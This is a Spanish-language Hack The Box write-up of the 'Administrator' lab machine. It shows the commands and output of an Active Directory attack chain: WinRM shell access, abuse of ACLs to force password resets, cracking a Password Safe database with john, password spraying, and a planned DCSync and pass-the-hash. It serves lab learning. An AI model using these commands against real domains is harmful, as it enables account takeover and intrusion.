+++
author = "Andrés Del Cerro"
title = "Hack The Box: Administrator Writeup | Medium"
date = "2025-06-03"
description = ""
tags = [
    "HackTheBox",
    "Administrator",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "DNS Enumeration",
    "Abusing WinRM",
    "Bloodhound Enumeration",
    "Bloodhound",
    "Abusing GenericAll",
    "Abusing ForceChangePassword",
    "FTP Enumeration",
    "Hash Cracking",
    "Cracking",
    "Cracking Password Safe V3",
    "Password Spraying",
    "Abusing GenericWrite",
    "Shadow Credentials",
    "Targeted Kerberoast",
    "DCSync",
    "Pass The Hash"
]

+++

# Hack The Box: Administrator Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Administrator"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration
```console
rustscan -a 10.10.11.42 --ulimit 5000 -g
10.10.11.42 -> [21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49564,49569,49572,49592,49632,49664,49665,49666,49669,49667,64220]
```

```console
nmap -p21,53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49564,49569,49572,49592,49632,49664,49665,49666,49669,49667,64220 -sCV 10.10.11.42 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-14 17:10 CET
Nmap scan report for 10.10.11.42
Host is up (0.63s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
53/tcp    open  domain?
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-11-14 22:57:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: administrator.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49564/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49569/tcp open  msrpc         Microsoft Windows RPC
49572/tcp open  msrpc         Microsoft Windows RPC
49592/tcp open  msrpc         Microsoft Windows RPC
49632/tcp open  msrpc         Microsoft Windows RPC
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
64220/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-11-14T23:00:14
|_  start_date: N/A
|_clock-skew: 6h46m56s
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.95 seconds
```

# UDP Enumeration
```console
sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.10.11.42 -oN allPorts
[sudo] password for kali:
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-14 17:10 CET
Warning: 10.10.11.42 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.42
Host is up (0.40s latency).
Not shown: 1484 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
13/udp    closed daytime
53/udp    open   domain
88/udp    open   kerberos-sec
123/udp   open   ntp
389/udp   open   ldap
814/udp   closed unknown
989/udp   closed ftps-data
1001/udp  closed unknown
2002/udp  closed globe
27058/udp closed unknown
27861/udp closed unknown
28547/udp closed unknown
28808/udp closed unknown
30909/udp closed unknown
33249/udp closed unknown
49167/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 15.02 seconds
```

Del escaneo inicial vemos el dominio `administrator.htb`, lo añadimos al `/etc/hosts`

# DNS Enumeration
No hemos visto el nombre del DC que suele ser el registro NS en el DNS, y como tiene el servicio DNS expuesto, vamos a averiguarlo.

```console
dig NS administrator.htb @10.10.11.42

; <<>> DiG 9.19.19-1-Debian <<>> NS administrator.htb @10.10.11.42
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 47269
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 2

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;administrator.htb.		IN	NS

;; ANSWER SECTION:
administrator.htb.	3600	IN	NS	dc.administrator.htb.

;; ADDITIONAL SECTION:
dc.administrator.htb.	3600	IN	A	10.10.11.42

;; Query time: 259 msec
;; SERVER: 10.10.11.42#53(10.10.11.42) (UDP)
;; WHEN: Thu Nov 14 17:27:11 CET 2024
;; MSG SIZE  rcvd: 79
```

Añadimos también el `dc.administrator.htb` al `/etc/hosts`

También con `dnsenum` podemos hacer fuerza bruta de subdominios a ver si encontramos algo interesante.

No encontramos nada interesante.
```console
dnsenum --dnsserver 10.10.11.42 -f /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt administrator.htb
dnsenum VERSION:1.2.6

-----   administrator.htb   -----


Host's addresses:
__________________

administrator.htb.                       600      IN    A        10.10.11.42


Name Servers:
______________

dc.administrator.htb.                    3600     IN    A        10.10.11.42


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: dc.administrator.htb at /usr/bin/dnsenum line 897.

Trying Zone Transfer for administrator.htb on dc.administrator.htb ...
AXFR record query failed: no nameservers


Brute forcing with /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:
__________________________________________________________________________________________________
```

# FTP Enumeration
Es raro ver un servidor FTP en estos casos de directorio activo, pero podemos probar a enumerarlo a ver que encontramos.

También recalcar que en esta máquina nos han dado unas credenciales para hacer el CTF.

> As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Olivia / ichliebedich

Antes de nada, vamos a comprobarlas con `netexec`

Como no está expuesto el SMB podemos usar LDAP para hacer esta comprobación.
```console
content nxc ldap 10.10.11.42 -u olivia -p ichliebedich
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [+] administrator.htb\olivia:ichliebedich
```

Sorprendentemente podemos ver que al comprobar si este usuario pertenece al grupo `Remote Management Users` vemos que sí. Esto lo podemos saber ya que con `netexec` al comprobar esta credencial en el servicio WinRM podemos ver que nos reporta un `(Pwn3d!)`
```console
content nxc winrm 10.10.11.42 -u olivia -p ichliebedich
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\olivia:ichliebedich (Pwn3d!)
```

Antes de acceder me interesa ver si podemos conectarnos por FTP.

Vemos que no tenemos acceso.
```console
content ftp olivia@10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
331 Password required
Password:
530 User cannot log in, home directory inaccessible.
ftp: Login failed
ftp>
ftp> exit
```

# Abusing WinRM
Podemos utilizar `evil-winrm` para conseguir una shell como `olivia`

```console
content evil-winrm -i 10.10.11.42 -u olivia -p ichliebedich

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\olivia\Documents> whoami
administrator\olivia
```

# Bloodhound Enumeration
Vamos a irnos a la ruta `C:\Windows\Temp\work` (creando el directorio `work`) para subirnos el `SharpHound.exe` y hacer una recolección de información sobre el dominio para analizarla con `Bloodhound`

Vamos a hacer uso de la función interna `upload` de `evil-winrm` para subir el ejecutable.

```console
*Evil-WinRM* PS C:\Windows\temp\work> upload SharpHound.exe

Info: Uploading /home/kali/Desktop/administrator/content/SharpHound.exe to C:\Windows\temp\work\SharpHound.exe

Data: 1402880 bytes of 1402880 bytes copied

Info: Upload successful!
```

Ahora podemos simplemente ejecutar el SharpHound y descargar los archivos que nos ha generado.

```console
*Evil-WinRM* PS C:\Windows\temp\work> .\SharpHound.exe -c All
2024-11-14T15:27:11.7186894-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-11-14T15:27:11.8280637-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-11-14T15:27:11.8436871-08:00|INFORMATION|Initializing SharpHound at 3:27 PM on 11/14/2024
2024-11-14T15:27:11.9218106-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for administrator.htb : dc.administrator.htb
2024-11-14T15:27:12.0312068-08:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-11-14T15:27:12.1405817-08:00|INFORMATION|Beginning LDAP search for administrator.htb
2024-11-14T15:27:12.1718107-08:00|INFORMATION|Producer has finished, closing LDAP channel
2024-11-14T15:27:12.1718107-08:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-11-14T15:27:42.8757685-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 37 MB RAM
2024-11-14T15:27:57.2030623-08:00|INFORMATION|Consumers finished, closing output channel
2024-11-14T15:27:57.2343165-08:00|INFORMATION|Output channel closed, waiting for output task to complete
Closing writers
2024-11-14T15:27:57.2968123-08:00|INFORMATION|Status: 97 objects finished (+97 2.155555)/s -- Using 44 MB RAM
2024-11-14T15:27:57.2968123-08:00|INFORMATION|Enumeration finished in 00:00:45.1483622
2024-11-14T15:27:57.3436929-08:00|INFORMATION|Saving cache with stats: 57 ID to type mappings.
 57 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-11-14T15:27:57.3436929-08:00|INFORMATION|SharpHound Enumeration Completed at 3:27 PM on 11/14/2024! Happy Graphing!
*Evil-WinRM* PS C:\Windows\temp\work> dir


    Directory: C:\Windows\temp\work


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        11/14/2024   3:27 PM          11933 20241114152756_BloodHound.zip
-a----        11/14/2024   3:27 PM           8824 NDI3ZmMyMGItNzc4Ny00MzE1LTllNDItYTM4YTEzYjcyZDFj.bin
-a----        11/14/2024   3:26 PM        1052160 SharpHound.exe
```

Descargamos el archivo `20241114152756_BloodHound.zip` utilizando `download` de `evil-winrm`

```console
*Evil-WinRM* PS C:\Windows\temp\work> download 20241114152756_BloodHound.zip

Info: Downloading C:\Windows\temp\work\20241114152756_BloodHound.zip to 20241114152756_BloodHound.zip

Info: Download successful!
```

Ahora, en nuestra máquina, iniciamos `neo4j` que es la base de datos que utiliza `bloodhound`

```console
sudo neo4j start
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:35591). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

Una vez hecho eso, ya podemos iniciar `bloodhound` e importar el archivo zip.

 
Acto seguido vamos a marcar a `olivia` como `owned` ya que tenemos sus credenciales.


Podemos detectar que `olivia` tiene el privilegio  `GenericAll `sobre `michael`, esto significa que tenemos control total sobre este objeto.


A su vez el usuario `michael` tiene el privilegio `ForceChangePassword` sobre `benjamin`, esto significa que podría cambiar la contraseña de este usuario.


Este usuario pertenece a un grupo un tanto extraño llamado `Share Moderators`


Este grupo solo tiene un miembro y en `benjamin` y no tiene ningún control sobre otro objeto, pero sabiendo que existe un FTP por detrás, quizás es interesante.

# Abusing `GenericAll` Privilege
Así que el primer paso es abusar el `GenericAll` que `olivia` tiene sobre `michael`

```console
net rpc password "michael" "Pointed123@" -U "administrator.htb"/"olivia"%"ichliebedich" -S "dc.administrator.htb"
```

Ahora lo podemos comprobar con `netexec`
```console
nxc ldap 10.10.11.42 -u michael -p "Pointed123@"
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [+] administrator.htb\michael:Pointed123@
```

# Abusing `ForceChangePassword` Privilege

De la misma forma, podemos cambiar la contraseña de `benjamin`

```console
net rpc password "benjamin" "Pointed123@" -U "administrator.htb"/"michael"%"Pointed123@" -S "dc.administrator.htb"
```

Lo podemos comprobar...
```console
nxc ldap 10.10.11.42 -u benjamin -p "Pointed123@"
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [+] administrator.htb\benjamin:Pointed123@
```

# Discovering and Cracking Password Safe V3 Database
Ahora podemos iniciar sesión al servicio FTP como `benjamin` y encontramos un archivo un tanto extraño llamado `Backup.psafe3`, vamos a descargarlo para echarlo un vistazo.

```console
ftp benjamin@10.10.11.42
Connected to 10.10.11.42.
220 Microsoft FTP Service
331 Password required
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||64776|)
125 Data connection already open; Transfer starting.
10-05-24  08:13AM                  952 Backup.psafe3
226 Transfer complete.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||64777|)
125 Data connection already open; Transfer starting.
100% |**********************************************************************|   952        1.89 KiB/s    00:00 ETA
226 Transfer complete.
WARNING! 3 bare linefeeds received in ASCII mode.
File may not have transferred correctly.
952 bytes received in 00:00 (1.26 KiB/s)
```

Vemos que nos da un error la transmisión FTP, esto es por el modo de transmisión.

Por defecto está en modo ASCII, podemos cambiarlo al modo binario para intentar descargar el archivo con el comando `binary` y vemos que funciona.

```console
ftp> binary
200 Type set to I.
ftp> get Backup.psafe3
local: Backup.psafe3 remote: Backup.psafe3
229 Entering Extended Passive Mode (|||64780|)
125 Data connection already open; Transfer starting.
100% |**********************************************************************|   952        1.89 KiB/s    00:00 ETA
226 Transfer complete.
952 bytes received in 00:00 (1.26 KiB/s)
```

> [!NOTE]
> En FTP, el modo ASCII está pensado para transferir archivos de texto, ya que convierte automáticamente los saltos de línea entre diferentes sistemas operativos, como de Unix a Windows. Sin embargo, este modo no es adecuado para archivos binarios, ya que la conversión puede corromper su estructura. En cambio, el modo Binary transfiere los archivos sin hacer ninguna modificación en su contenido, lo que lo hace ideal para archivos binarios como imágenes, archivos comprimidos y ejecutables, en los que cada bit debe permanecer intacto.
> 

Podemos ver que el archivo es una base de datos "Password Safe V3"
```console
file Backup.psafe3
Backup.psafe3: Password Safe V3 database
```

Podemos investigar que es esto.

PasswordSafe es un administrador de contraseñas de código abierto que permite almacenar y organizar contraseñas de manera segura.

Con PasswordSafe, solo es necesario recordar una contraseña maestra para acceder a todas las credenciales guardadas.

Es decir, que PasswordSafe es como una especie de KeePass, ahora, necesitamos la contraseña maestra de este archivo.

En Kali Linux viene una herramienta por defecto llamada `pwsafe2john` que podemos utilizar para extraer el hash de la clave maestra para posteriormente crackearla.

```console
pwsafe2john Backup.psafe3
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050
```

Podemos guardar este hash en un archivo y utilizar `john` para crackearlo.

```console
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (pwsafe, Password Safe [SHA256 128/128 AVX 4x])
Cost 1 (iteration count) is 2048 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tekieromucho     (Backu)
1g 0:00:00:00 DONE (2024-11-14 18:09) 3.448g/s 21186p/s 21186c/s 21186C/s newzealand..iheartyou
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

# Password Spraying -> Foothold
Ahora que sabemos la contraseña maestra, vamos a descargar en una máquina Windows [el ejecutable de Password Safe](https://github.com/pwsafe/pwsafe/releases/download/3.67.0/pwsafe-3.67.0.exe)

Ahora desde nuestra máquina Linux nos vamos a compartir por SMB el archivo de la base de datos.
```console
sudo impacket-smbserver -smb2support smbFolder .
Impacket v0.12.0.dev1+20240711.104209.512a1db5 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Ahora nos copiamos el archivo a nuestra máquina.


Seleccionamos la base de datos y ponemos la contraseña `tekieromucho`


Y vemos que tenemos algunas credenciales para estos usuarios.


Nos vamos a exportar estas credenciales a un archivo llamado `passwords.txt`


Aquí tenemos las credenciales.
```console
cat passwords.txt
───────┬───────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: passwords.txt
───────┼───────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
   2   │ UXLCI5iETUsIBoFVTj8yQFKoHjXmb
   3   │ WwANQWnmJnGV07WQN8bMS7FMAbjNur
───────┴───────────────────────────────────────────────────────────────────────────────────────────────────────────
```

Ahora vamos a copiarnos los usuarios del dominio para hacer una lista de usuarios.
```console
*Evil-WinRM* PS C:\Users\olivia\Documents> net users

User accounts for \\

-------------------------------------------------------------------------------
Administrator            alexander                benjamin
emily                    emma                     ethan
Guest                    krbtgt                   michael
olivia
The command completed with one or more errors.
```

```console
cat -p users.txt
Administrator
alexander
benjamin
emily
emma
ethan
Guest
krbtgt
michael
```

Ahora con `netexec` vamos a probar estas credenciales para estos usuarios.

Vemos que tenemos la única combinación de credenciales válidas son de `emily`
```console
nxc ldap 10.10.11.42 -u users.txt -p passwords.txt --continue-on-success
SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.42     389    DC               [-] administrator.htb\Administrator:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
LDAP        10.10.11.42     389    DC               [-] administrator.htb\alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
LDAP        10.10.11.42     389    DC               [-] administrator.htb\benjamin:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
LDAP        10.10.11.42     389    DC               [-] administrator.htb\emily:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
LDAP        10.10.11.42     389    DC               [-] administrator.htb\emma:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
LDAP        10.10.11.42     389    DC               [-] administrator.htb\ethan:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
LDAP        10.10.11.42     389    DC               [-] administrator.htb\Guest:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
LDAP        10.10.11.42     389    DC               [-] administrator.htb\krbtgt:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
LDAP        10.10.11.42     389    DC               [-] administrator.htb\michael:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
LDAP        10.10.11.42     389    DC               [-] administrator.htb\Administrator:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
LDAP        10.10.11.42     389    DC               [-] administrator.htb\alexander:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
LDAP        10.10.11.42     389    DC               [-] administrator.htb\benjamin:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
LDAP        10.10.11.42     389    DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
LDAP        10.10.11.42     389    DC               [-] administrator.htb\emma:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
LDAP        10.10.11.42     389    DC               [-] administrator.htb\ethan:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
LDAP        10.10.11.42     389    DC               [-] administrator.htb\Guest:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
LDAP        10.10.11.42     389    DC               [-] administrator.htb\krbtgt:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
LDAP        10.10.11.42     389    DC               [-] administrator.htb\michael:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
LDAP        10.10.11.42     389    DC               [-] administrator.htb\Administrator:WwANQWnmJnGV07WQN8bMS7FMAbjNur
LDAP        10.10.11.42     389    DC               [-] administrator.htb\alexander:WwANQWnmJnGV07WQN8bMS7FMAbjNur
LDAP        10.10.11.42     389    DC               [-] administrator.htb\benjamin:WwANQWnmJnGV07WQN8bMS7FMAbjNur
LDAP        10.10.11.42     389    DC               [-] administrator.htb\emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
LDAP        10.10.11.42     389    DC               [-] administrator.htb\ethan:WwANQWnmJnGV07WQN8bMS7FMAbjNur
LDAP        10.10.11.42     389    DC               [-] administrator.htb\Guest:WwANQWnmJnGV07WQN8bMS7FMAbjNur
LDAP        10.10.11.42     389    DC               [-] administrator.htb\krbtgt:WwANQWnmJnGV07WQN8bMS7FMAbjNur
LDAP        10.10.11.42     389    DC               [-] administrator.htb\michael:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

Vemos que `emily` también pertenece al grupo `Remote Management Users`, así que vamos a conectarnos con `evil-winrm` como este usuario.
```console
nxc winrm 10.10.11.42 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb
WINRM       10.10.11.42     5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:administrator.htb)
WINRM       10.10.11.42     5985   DC               [+] administrator.htb\emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb (Pwn3d!)
```

```console
evil-winrm -i 10.10.11.42 -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily\Documents> whoami
administrator\emily
```

Podemos leer la flag de usuario.
```console
*Evil-WinRM* PS C:\Users\emily\Desktop> type user.txt
028dd1aa2b323e...
```

# Abusing `GenericWrite` over ethan
Si volvemos al `bloodhound` vemos que el usuario `emily` tiene el privilegio `GenericWrite` sobre `ethan` y a su vez este usuario tiene permisos para efectuar un `DCSync` sobre el dominio, por lo cual podríamos conseguir el Hash NT del Administrador y hacer Pass The Hash para conseguir una consola interactiva privilegiada.
